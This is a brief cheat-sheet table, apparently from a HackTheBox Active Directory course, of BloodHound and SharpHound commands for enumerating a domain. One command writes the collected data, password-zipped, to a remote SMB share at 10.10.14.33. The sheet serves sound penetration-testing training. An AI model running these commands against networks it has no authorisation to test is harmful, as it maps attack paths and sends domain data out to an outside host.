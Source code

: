 | Command                                                                                                                            | Description                            |
| ---------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor         |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` |                                        |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                  |
